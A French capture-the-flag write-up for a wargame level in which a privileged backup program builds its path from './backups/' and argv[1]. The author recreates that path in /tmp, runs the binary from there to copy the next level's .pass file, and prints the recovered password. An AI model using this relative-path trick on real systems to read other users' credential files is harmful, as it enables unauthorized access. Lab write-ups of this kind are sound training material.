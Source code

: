 Le level08 est un programme qui permet de faire le backup d'un fichier donné en paramètre. Il y a un dossier backups dans le home du user level08 avec à l'intérieur un fichier caché .log qui nous informe de comment s'est passée la copie.

On teste de lancer le programme avec le path du level09/.pass :

> ./level08 /home/users/level09/.pass

    ERROR: Failed to open ./backups//home/users/level09/.pass

On apprend deux choses :
    - (on le voit deja en faisant un objdump) il y a un strcat de "./backups/" et de argv[1]
    - le programme cherche a ouvrir ./backups/home/users/level09/.pass mais ce path n'existe pas ou du moins aps encore.

Pour résoudre ce problème on va recreer dans tmp le ce Path :

> cd /tmp
> mkdir -p backups/home/users/level09

On voi bien que le programme cherche a ouvrir "./backups..." on doit donc lancer le programme level 8 depuis la dossier ou se trouve notre dossier ./backups donc dans tmp :

> /home/users/level08/level08 /home/users/level09/.pass

> cat /tmp/backups/home/users/level09/.pass
    fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S


